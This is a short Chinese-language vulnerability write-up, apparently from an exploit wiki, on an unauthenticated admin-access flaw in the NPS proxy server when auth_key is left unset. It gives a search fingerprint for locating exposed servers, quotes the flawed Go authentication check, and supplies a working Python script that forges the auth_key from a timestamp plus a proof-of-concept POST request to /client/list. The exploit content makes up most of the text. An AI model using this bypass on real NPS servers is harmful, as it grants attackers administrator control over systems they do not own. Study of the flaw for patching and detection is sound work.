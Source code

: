 # NPS auth_key 未授权访问漏洞

## 漏洞描述

NPS auth_key 存在未授权访问漏洞，当 nps.conf 中的 auth_key 未配置时攻击者通过生成特定的请求包可以获取服务器后台权限

## 漏洞影响

<a-checkbox checked>NPS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="serializeArray()" && body="/login/verify"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1659837763038-87e809fa-89b7-43e1-a37f-29d06fbcc4c1.png)

在 web/controllers/base.go 文件中

![img](../../../.vuepress/public/img/1659837874036-755e631e-af75-461b-9279-153c730f4a61.png)

```php
md5Key := s.getEscapeString("auth_key")
timestamp := s.GetIntNoErr("timestamp")
configKey := beego.AppConfig.String("auth_key")
timeNowUnix := time.Now().Unix()
if !(md5Key != "" && (math.Abs(float64(timeNowUnix-int64(timestamp))) <= 20) && (crypt.Md5(configKey+strconv.Itoa(timestamp)) == md5Key)) {
	if s.GetSession("auth") != true {
		s.Redirect(beego.AppConfig.String("web_base_url")+"/login/index", 302)
	}
} else {
	s.SetSession("isAdmin", true)
	s.Data["isAdmin"] = true
}
```

这里需要的参数为 配置文件 nps.conf 中的 auth_key 与 timestamp 的md5 形式进行认证，但在默认的配置文件中，auth_key 默认被注释，所以只需要可以获取到的参数 timestamp 就可以登录目标

![img](../../../.vuepress/public/img/1659838387320-fecc77bf-a16d-4843-a29c-b0a1fa275349.png)

```php
import time
import hashlib
now = time.time()
m = hashlib.md5()
m.update(str(int(now)).encode("utf8"))
auth_key = m.hexdigest()

print("auth_key=%s&timestamp=%s" % (auth_key,int(now)))
```

验证POC

```php
POST /client/list
  
search=&order=asc&offset=0&limit=10&auth_key=8c98b1bdedbc569c4e61eeaeb11ce772&timestamp=1659838908
```

![img](../../../.vuepress/public/img/1659838957498-cc20a0c6-5c59-41a3-88dc-6d769a9bb8e4.png)